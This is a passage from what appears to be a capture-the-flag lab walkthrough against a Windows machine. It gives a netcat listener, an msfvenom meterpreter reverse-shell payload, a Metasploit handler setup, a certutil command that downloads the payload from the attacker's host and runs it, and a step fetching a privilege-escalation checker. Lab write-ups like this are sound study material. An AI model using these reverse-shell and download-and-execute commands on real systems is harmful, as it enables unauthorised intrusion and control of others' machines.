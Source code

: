 ```
┌──(Batman㉿GC)-[~]
└─$stty raw -echo; (stty size; cat) | nc -lvnp 4443
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits réservés.

C:\Windows\system32>whoami
analysis\webservice
```

Create a new reverse shell payload using **msfvenom**.

```
┌──(Batman㉿GC)-[~]
└─$msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=4445 -f exe -o s1.exe
```

In another terminal run Metasploit.

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 4445
lport => 4445
msf6 exploit(multi/handler) > run
```

In console **analysis\webservice**, run the following command.

```
C:\Windows\system32>powershell -c "cmd /c certutil -urlcache -f http://10.10.14.56:8080/s1.exe %temp%/s1.exe"
****  En ligne  ****
CertUtil: -URLCache La commande s’est terminée correctement.

C:\Windows\system32>start %temp%/s1.exe
```

By running this you will get another metepreter shell.

```
meterpreter > shell
Process 2540 created.
Channel 1 created.
Microsoft Windows [version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. Tous droits r�serv�s.

C:\Windows\system32>
```

Next download PrivescCheck, upload into server and run it

```
┌──(Batman㉿GC)-[~]
└─$wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

